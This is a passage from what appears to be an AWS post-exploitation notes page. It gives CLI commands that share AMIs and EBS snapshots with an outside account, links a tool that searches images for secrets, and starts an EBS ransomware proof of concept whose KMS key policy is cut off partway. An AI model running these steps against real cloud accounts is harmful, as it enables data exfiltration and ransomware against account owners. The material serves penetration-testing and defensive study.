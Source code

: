 {% code overflow="wrap" %}
```bash
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

### Search sensitive information in public and private AMIs

* [https://github.com/saw-your-packet/CloudShovel](https://github.com/saw-your-packet/CloudShovel): CloudShovel is a tool designed to **search for sensitive information within public or private Amazon Machine Images (AMIs)**. It automates the process of launching instances from target AMIs, mounting their volumes, and scanning for potential secrets or sensitive data.

### Share EBS Snapshot

{% code overflow="wrap" %}
```bash
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

### EBS Ransomware PoC

A proof of concept similar to the Ransomware demonstration demonstrated in the S3 post-exploitation notes. KMS should be renamed to RMS for Ransomware Management Service with how easy it is to use to encrypt various AWS services using it.

First from an 'attacker' AWS account, create a customer managed key in KMS. For this example we'll just have AWS manage the key data for me, but in a realistic scenario a malicious actor would retain the key data outside of AWS' control. Change the key policy to allow for any AWS account Principal to use the key. For this key policy, the account's name was 'AttackSim' and the policy rule allowing all access is called 'Outside Encryption'

```
{
    "Version": "2012-10-17",
    "Id": "key-consolepolicy-3",
    "Statement": [
        {
            "Sid": "Enable IAM User Permissions",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::[Your AWS Account Id]:root"
            },
            "Action": "kms:*",
            "Resource": "*"
        },
        {
            "Sid": "Allow access for Key Administrators",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
            },
            "Action": [
                "kms:Create*",
                "kms:Describe*",
                "kms:Enable*",
                "kms:List*",
                "kms:Put*",
                "kms:Update*",
                "kms:Revoke*",
                "kms:Disable*",
                "kms:Get*",
                "kms:Delete*",
```